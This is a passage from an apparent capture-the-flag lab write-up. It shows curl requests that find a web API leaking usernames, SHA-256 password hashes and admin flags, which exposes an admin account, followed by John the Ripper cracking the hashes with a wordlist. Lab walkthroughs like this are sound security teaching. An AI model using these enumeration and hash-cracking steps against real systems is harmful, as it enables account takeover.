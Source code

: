 On of them is particularly interesting because he's responsible for displaying the last users (tom, mark, rastating) on the home page:

~~~
$ curl -s http://10.10.86.179:3000/assets/js/app/controllers/home.js
var controllers = angular.module('controllers');

controllers.controller('HomeCtrl', function ($scope, $http) {
  $http.get('/api/users/latest').then(function (res) {
    $scope.users = res.data;
  });
});
~~~

Making the request ourselves reveals that the results are showing all fields, including the id, username, password hash and an admin flag:

~~~
$ curl -s http://10.10.86.179:3000/api/users/latest
[{"_id":"59a7368398aa325cc03ee51d","username":"tom","password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240","is_admin":false},{"_id":"59a7368e98aa325cc03ee51e","username":"mark","password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73","is_admin":false},{"_id":"59aa9781cced6f1d1490fce9","username":"rastating","password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0","is_admin":false}]
~~~

What happens if we do the same request without the trailing `/latest` at the end of the request? We get the full list of users, instead of just the latest:

~~~
$ curl -s http://10.10.86.179:3000/api/users
[{"_id":"59a7365b98aa325cc03ee51c","username":"myP14ceAdm1nAcc0uNT","password":"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af","is_admin":true},{"_id":"59a7368398aa325cc03ee51d","username":"tom","password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240","is_admin":false},{"_id":"59a7368e98aa325cc03ee51e","username":"mark","password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73","is_admin":false},{"_id":"59aa9781cced6f1d1490fce9","username":"rastating","password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0","is_admin":false}]
~~~

Either search for the hashes on the Internet, or crack them with John:

~~~
$ /data/src/john/run/john hashes.txt --wordlist=/data/src/wordlists/rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 4 password hashes with no different salts (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=8
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob        (?)
manchester       (?)
snowflake        (?)
3g 0:00:00:01 DONE (2020-06-25 09:29) 2.343g/s 11205Kp/s 11205Kc/s 11512KC/s -sevil2605-..*7¡Vamos!
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 
~~~

